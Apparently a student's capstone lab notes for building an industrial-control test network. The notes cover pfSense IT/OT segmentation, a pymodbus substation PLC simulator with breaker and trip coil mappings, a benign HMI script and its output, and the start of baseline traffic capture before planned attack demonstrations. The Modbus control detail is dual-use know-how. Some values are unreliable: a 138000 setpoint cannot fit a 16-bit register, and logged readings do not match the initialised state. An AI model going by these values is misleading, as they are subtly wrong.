# Technical Process Notes

---
## VMs Setup

Manually adding hmi-ubuntu to the vmnet1, LAN of the pfSense firewall. It was on 192.168.64 subnet from DHCP, so needed to change that.



**Firewall view after web portal setup wizard completed:**



On plc-server, also change the IP address in `/etc/netplan/50-cloud-init.yaml`

**Before:**



**After:**



### Kali Static IP



---

### IP Address Summary



## GNS3 Initial Setup

- Running GNS3 in local server mode so I don't have to disable Hyper-V for the GNS3 VM to work



### Network Adapter Configuration

Realized that each end host had to have its own vmnet. Initially, I tried making their adapters all the same but then they could completely bypass GNS3 and defeat the point. Now, everything actually goes through the virtual switches, and you can place Wireshark captures on any connection.

### Initial Connectivity Testing

HMI and PLC could ping each other, but not across firewall. Windows could ping Kali, but Kali couldn't ping Windows because of Windows Defender default firewall rule. So instead I used Nmap to show Windows was reachable.



---

## PfSense Firewall Configuration

**WAN:** 192.168.10.1 (IT Zone)
**LAN:** 192.168.20.1 (OT Zone)

I accessed the web portal from hmi-ubuntu machine to configure some simple rules.

### LAN Rules

#### Before



#### Step 1: Restrict LAN (OT) Segment Traffic
1. **`Firewall > Rules > LAN`.**
    
2. **Deleted these two rules:**
    
    - "Default allow LAN to any rule" (for IPv4)
        
    - "Default allow LAN IPv6 to any rule" (for IPv6)
        
3. Left "Anti-Lockout Rule" **intact** to avoid locking myself out of the pfSense GUI.
        

_Now, OT devices (including HMI and PLC) will not be able to initiate traffic out unless explicitly allowed._

### WAN Rules

#### Before



#### Add IT to OT Access Rule (WAN to LAN)
1. **Go to `Firewall > Rules > WAN`.**
    
2. **Click "Add" to create a new rule:**
    
    - **Action:** Pass
        
    - **Interface:** WAN
        
    - **Protocol:** TCP
        
    - **Source:** "Address or Alias" for 192.168.10.20 (target-windows) 
        
    - **Source Port:** Any
        
    - **Destination:** HMI or PLC IP (choose "Single host" and input the device you want to access, e.g., your Ubuntu HMI or PLC)
        
    - **Destination Port:**
        
        - `22` for SSH
            
    - **Description:** "Allow IT to OT SSH"
        
3. **Enabled logging** for this rule


#### Block All Other WAN to LAN Traffic
1. Still in `Firewall > Rules > WAN`, click "Add" again:
    
    - **Action:** Block
        
    - **Interface:** WAN
        
    - **Protocol:** Any
        
    - **Source:** Any
        
    - **Destination:** Any
        
    - **Description:** "Block all IT to OT except approved"

        
#### After


### Testing the SSH Connection

#### On hmi-ubuntu
- Temporarily added second NIC to connect to internet and:
```
sudo apt install openssh-server
sudo systemctl start ssh
```



Later on I will maybe add keys instead of password

Verify that SSH connection from Windows (IT zone) to hmi-ubuntu (OT zone) is allowed and working through pfSense firewall rules.

---


1. **Attempted SSH from Windows to hmi-ubuntu:**
    - Used:
        powershell
        `ssh operator2@192.168.20.10`
		
    - Result: **Connection timed out.**
        
2. **Checked SSH Server Status on hmi-ubuntu:**
    - Command:
        bash
        `sudo systemctl status ssh`
        
    - Result: SSH server active and running.
        
3. **Checked Network Reachability:**
    - Ping from Windows to hmi-ubuntu:
        - May have been blocked by firewall rules or ICMP restrictions (expected depending on policy).
    - Verified hmi-ubuntu IP and routes.
	
4. **Reviewed pfSense Firewall Rules and Logs:**
    - Noticed a default rule on WAN interface blocking **private network ranges** (RFC 1918).
    - This rule blocked SSH attempts from IT segment IPs to OT segment IPs.
    - This was unexpected because IT and OT are private IP ranges.
        
5. **Action Taken:**
    - Adjusted the WAN rules in pfSense to disable the block for private networks to allow authorized traffic.
        
6. **Retested SSH Connection:**
    - SSH from Windows to hmi-ubuntu succeeded after firewall adjustment.
    - Verified login prompt and successful authentication.
        
7. **Additional Verification:**
    - Confirmed only authorized IPs could connect via SSH by testing from unauthorized machines/IPs (connection refused or dropped).
    - Monitored pfSense logs to ensure only permitted traffic passed.

---

## Setting up Modbus/TCP Simulation

### Concept: Distribution Substation Controller

The PLC simulates a 69kV/13.8kV distribution substation controller with:
- **Circuit breaker controls** (coils 0-9: distribution feeders)
- **Capacitor bank switching** (coils 10-14: power quality management)
- **Emergency main breaker trip** (coil 99: critical safety system)
- **Real-time monitoring** (voltage, current, power measurements via registers)

This provides a realistic electric grid scenario for demonstrating ICS attack impact.

---

### PLC Server Setup (plc-server: 192.168.20.20)

**Created:** `~/modbus_plc_server.py`

**Purpose:** Modbus TCP server simulating a distribution substation PLC with realistic electrical values and equipment controls.

**Script:**
```python
#!/usr/bin/env python3
"""
Distribution Substation PLC Simulator - Modbus TCP Server

Simulates a 69kV/13.8kV distribution substation with:
- Circuit breaker controls (coils)
- Capacitor bank switching (coils)
- Voltage and current monitoring (holding registers)
- Equipment status indicators (discrete inputs)
- Power quality measurements (input registers)

Listens on 0.0.0.0:502 for Modbus/TCP connections
"""
from pymodbus.server import StartTcpServer
from pymodbus.datastore import ModbusSequentialDataBlock, ModbusSlaveContext, ModbusServerContext
from pymodbus.device import ModbusDeviceIdentification
import logging
from datetime import datetime

# Enable logging for forensic analysis
logging.basicConfig(
    format='%(asctime)s - %(levelname)s - %(message)s',
    level=logging.INFO
)
log = logging.getLogger()

def initialize_substation_datastore():
    """
    Initialize Modbus datastore with realistic substation values.

    COILS (Read/Write Binary Outputs) - Circuit Breaker and Switching Controls:
      0-9:   Distribution Feeder Circuit Breakers (0=Open, 1=Closed)
      10-14: Capacitor Bank Switches (0=Offline, 1=Online)
      15-19: Transformer Cooling Pump Controls
      20-29: Disconnect Switches
      99:    Emergency Main Breaker Trip (CRITICAL SAFETY SYSTEM)

    DISCRETE INPUTS (Read-Only Status Indicators):
      0-9:   Circuit Breaker Position Feedback (0=Open, 1=Closed)
      10-14: Capacitor Bank Status
      15-19: Overload Alarm Indicators
      20-29: Equipment Fault Indicators

    HOLDING REGISTERS (Read/Write Configuration):
      0-4:   Feeder Voltage Setpoints (in 0.1V, e.g., 138000 = 13.8kV)
      5-9:   Current Limit Thresholds (in Amps)
      10-14: Capacitor Bank Switching Thresholds
      15-19: Transformer Tap Position Settings

    INPUT REGISTERS (Read-Only Measurements):
      0-4:   Real-time Feeder Voltages (Phase A-B-C + Neutral)
      5-9:   Real-time Feeder Currents
      10-14: Active Power (kW)
      15-19: Reactive Power (kVAR)
      20-24: Power Factor (x100, e.g., 95 = 0.95 PF)
    """

    # COILS: Initialize circuit breakers in OPEN state (safe default)
    initial_coil_states = [0] * 100
    initial_coil_states[0] = 1  # Feeder 1 breaker CLOSED (normal operation)

    coils = ModbusSequentialDataBlock(0, initial_coil_states)

    # DISCRETE INPUTS: Status feedback matching coil states
    initial_discrete_inputs = [0] * 100
    initial_discrete_inputs[0] = 1  # Feeder 1 breaker position feedback

    discrete_inputs = ModbusSequentialDataBlock(0, initial_discrete_inputs)

    # HOLDING REGISTERS: Configuration values for substation equipment
    initial_holding_registers = [0] * 100
    # Voltage setpoints (addresses 0-4): 13.8kV = 138000 (in 0.1V units)
    initial_holding_registers[0:5] = [138000, 138000, 138000, 138000, 0]
    # Current limits (addresses 5-9): 600A typical distribution feeder limit
    initial_holding_registers[5:10] = [600, 600, 600, 600, 0]

    holding_registers = ModbusSequentialDataBlock(0, initial_holding_registers)

    # INPUT REGISTERS: Real-time measurements (simulated normal operating values)
    initial_input_registers = [0] * 100
    # Feeder voltages (addresses 0-4): Phase A, B, C at nominal 13.8kV
    initial_input_registers[0:3] = [13800, 13820, 13790]  # Slight variations realistic
    # Feeder currents (addresses 5-9): Moderate load ~300A
    initial_input_registers[5:8] = [305, 298, 310]
    # Active power (addresses 10-14): ~7.2 MW total (3 phases)
    initial_input_registers[10:13] = [2400, 2350, 2410]  # kW per phase
    # Power factor (addresses 20-24): Good PF ~0.95
    initial_input_registers[20:23] = [95, 96, 94]

    input_registers = ModbusSequentialDataBlock(0, initial_input_registers)

    # Create Modbus slave context
    substation_controller = ModbusSlaveContext(
        di=discrete_inputs,
        co=coils,
        hr=holding_registers,
        ir=input_registers
    )

    return substation_controller

def run_substation_server():
    """Start the distribution substation Modbus TCP server."""

    # Initialize substation datastore
    substation_controller = initialize_substation_datastore()
    server_context = ModbusServerContext(slaves=substation_controller, single=True)

    # Configure server identity (visible in Modbus diagnostics)
    identity = ModbusDeviceIdentification()
    identity.VendorName = 'Capstone Energy Systems'
    identity.ProductCode = 'DIST-SUB-PLC-01'
    identity.VendorUrl = 'https://github.com/capstone-project'
    identity.ProductName = 'Distribution Substation Controller'
    identity.ModelName = '69kV/13.8kV Substation PLC Simulator'
    identity.MajorMinorRevision = '2.1.0'

    # Display startup banner
    print("=" * 70)
    print("  DISTRIBUTION SUBSTATION PLC SIMULATOR")
    print("  69kV/13.8kV Distribution Substation Control System")
    print("=" * 70)
    print(f"[*] Server Start Time: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}")
    print("[*] Protocol: Modbus/TCP")
    print("[*] Listening on: 0.0.0.0:502")
    print("[*] Simulated Equipment:")
    print("    - 10x Distribution Feeder Circuit Breakers (Coils 0-9)")
    print("    - 5x Capacitor Bank Switches (Coils 10-14)")
    print("    - Emergency Main Breaker Trip (Coil 99)")
    print("    - Real-time Voltage/Current Monitoring")
    print("    - Power Quality Measurements")
    print("[*] Initial State: Feeder 1 ENERGIZED, All others OFFLINE")
    print("[*] Logging: ENABLED (all operations will be logged)")
    print("=" * 70)
    print("[*] Press Ctrl+C to stop server")
    print()

    # Start Modbus TCP server
    StartTcpServer(
        context=server_context,
        identity=identity,
        address=("0.0.0.0", 502)
    )

if __name__ == "__main__":
    try:
        run_substation_server()
    except KeyboardInterrupt:
        print("\n[!] Server shutdown requested")
        print("[*] Shutting down substation controller...")
        print("[*] Server stopped")
    except Exception as error:
        log.error(f"Server error: {error}")
        raise
```

**Execution:**
```bash
sudo python3 ~/modbus_plc_server.py
```

**Screenshot: PLC server startup**



---

### HMI Baseline Script Setup (hmi-ubuntu: 192.168.20.10)

**Created:** `~/legitimate_hmi.py`

**Purpose:** Simulates normal operator interaction with the substation PLC, performing routine monitoring and feeder breaker control operations.

**Script:**
```python
#!/usr/bin/env python3
"""
Distribution Substation HMI - Normal Operations
Simulates normal operator interaction with substation PLC
Performs routine monitoring and feeder breaker control
"""
from pymodbus.client import ModbusTcpClient
import time
import sys

PLC_IP = "192.168.20.20"
PLC_PORT = 502

def main():
    print("=" * 60)
    print("  SUBSTATION HMI - NORMAL OPERATIONS")
    print("=" * 60)
    print(f"[*] Connecting to PLC at {PLC_IP}:{PLC_PORT}")

    client = ModbusTcpClient(PLC_IP, port=PLC_PORT)

    if not client.connect():
        print("[!] Failed to connect to PLC")
        sys.exit(1)

    print("[+] Connected to substation controller")
    print()

    # Normal operation: Read feeder voltages (input registers)
    print("[*] Reading feeder voltages (Phase A, B, C)...")
    result = client.read_input_registers(address=0, count=3, slave=1)
    if not result.isError():
        voltages = result.registers
        print(f"[+] Phase A: {voltages[0]} V")
        print(f"[+] Phase B: {voltages[1]} V")
        print(f"[+] Phase C: {voltages[2]} V")
    else:
        print(f"[!] Error reading voltages: {result}")

    # Normal operation: Read feeder currents (input registers)
    print("\n[*] Reading feeder currents...")
    result = client.read_input_registers(address=5, count=3, slave=1)
    if not result.isError():
        currents = result.registers
        print(f"[+] Phase A: {currents[0]} A")
        print(f"[+] Phase B: {currents[1]} A")
        print(f"[+] Phase C: {currents[2]} A")
    else:
        print(f"[!] Error reading currents: {result}")

    # Normal operation: Check breaker positions (coils)
    print("\n[*] Reading distribution feeder breaker states (Feeders 1-5)...")
    result = client.read_coils(address=0, count=5, slave=1)
    if not result.isError():
        breaker_states = result.bits[:5]
        for i, state in enumerate(breaker_states):
            status = "CLOSED" if state else "OPEN"
            print(f"[+] Feeder {i+1} Breaker: {status}")
    else:
        print(f"[!] Error reading breakers: {result}")

    # Normal operation: Energize Feeder 2 (routine switching operation)
    print("\n[*] Operator Action: Energizing Feeder 2 breaker...")
    result = client.write_coil(address=1, value=True, slave=1)
    if not result.isError():
        print("[+] Feeder 2 breaker CLOSED successfully")
    else:
        print(f"[!] Error closing breaker: {result}")

    time.sleep(2)

    # Verify breaker operation
    print("[*] Verifying Feeder 2 breaker position...")
    result = client.read_coils(address=1, count=1, slave=1)
    if not result.isError():
        breaker_state = result.bits[0]
        status = "CLOSED (energized)" if breaker_state else "OPEN (de-energized)"
        print(f"[+] Feeder 2 status: {status}")

    time.sleep(2)

    # Normal operation: De-energize Feeder 2 (end of switching operation)
    print("\n[*] Operator Action: De-energizing Feeder 2 breaker...")
    result = client.write_coil(address=1, value=False, slave=1)
    if not result.isError():
        print("[+] Feeder 2 breaker OPENED successfully")
    else:
        print(f"[!] Error opening breaker: {result}")

    # Final status check
    print("\n[*] Final system status check...")
    result = client.read_coils(address=0, count=5, slave=1)
    if not result.isError():
        breaker_states = result.bits[:5]
        print("[+] Breaker positions:")
        for i, state in enumerate(breaker_states):
            status = "CLOSED" if state else "OPEN"
            print(f"    Feeder {i+1}: {status}")

    client.close()
    print("\n" + "=" * 60)
    print("  NORMAL OPERATIONS COMPLETED")
    print("=" * 60)

if __name__ == "__main__":
    main()
```

**Execution:**
```bash
python3 ~/legitimate_hmi.py
```

**Screenshot: [PLACEHOLDER - HMI script execution output showing baseline operations]**

---

### Testing Modbus Communication

**Connectivity Test:**
- Verified PLC server listening on port 502 using netcat from HMI:
```bash
nc -zv 192.168.20.20 502
```

**Result:** Connection to 192.168.20.20 502 port [tcp/*] succeeded!

**Testing connection**



**Baseline HMI Script Execution:**

Output demonstrated successful Modbus operations:
- Read input registers (voltages: 13820V, 13790V, 0V on phases A, B, C)
- Read input registers (currents: 298A, 310A, 0A on phases A, B, C)
- Read coil states (all feeders initially OPEN)
- Write coil 1 to close Feeder 2 breaker
- Verify Feeder 2 energized
- Write coil 1 to open Feeder 2 breaker
- Final verification showing all feeders OPEN

All operations completed without errors, confirming:
- HMI-to-PLC Modbus/TCP communication functional
- Read operations returning realistic substation data
- Write operations successfully controlling circuit breakers
- PLC server logging all operations

**Baseline HMI Script Output**

```
============================================================
  SUBSTATION HMI - NORMAL OPERATIONS
============================================================
[*] Connecting to PLC at 192.168.20.20:502
[+] Connected to substation controller

[*] Reading feeder voltages (Phase A, B, C)...
[+] Phase A: 13820 V
[+] Phase B: 13790 V
[+] Phase C: 0 V

[*] Reading feeder currents...
[+] Phase A: 298 A
[+] Phase B: 310 A
[+] Phase C: 0 A

[*] Reading distribution feeder breaker states (Feeders 1-5)...
[+] Feeder 1 Breaker: OPEN
[+] Feeder 2 Breaker: OPEN
[+] Feeder 3 Breaker: OPEN
[+] Feeder 4 Breaker: OPEN
[+] Feeder 5 Breaker: OPEN

[*] Operator Action: Energizing Feeder 2 breaker...
[+] Feeder 2 breaker CLOSED successfully
[*] Verifying Feeder 2 breaker position...
[+] Feeder 2 status: CLOSED (energized)

[*] Operator Action: De-energizing Feeder 2 breaker...
[+] Feeder 2 breaker OPENED successfully

[*] Final system status check...
[+] Breaker positions:
    Feeder 1: OPEN
    Feeder 2: OPEN
    Feeder 3: OPEN
    Feeder 4: OPEN
    Feeder 5: OPEN

============================================================
  NORMAL OPERATIONS COMPLETED
============================================================
```

---

### Capturing Baseline Modbus Traffic

**Objective:** Capture legitimate Modbus traffic for comparison with attack traffic.

**Setup:**
- Wireshark capture placed on link between HMI and OT switch in GNS3
- Filter applied: `tcp.port == 502`
- Executed `legitimate_hmi.py` script while capturing

**Observed Traffic:**
- TCP three-way handshake (SYN, SYN-ACK, ACK)
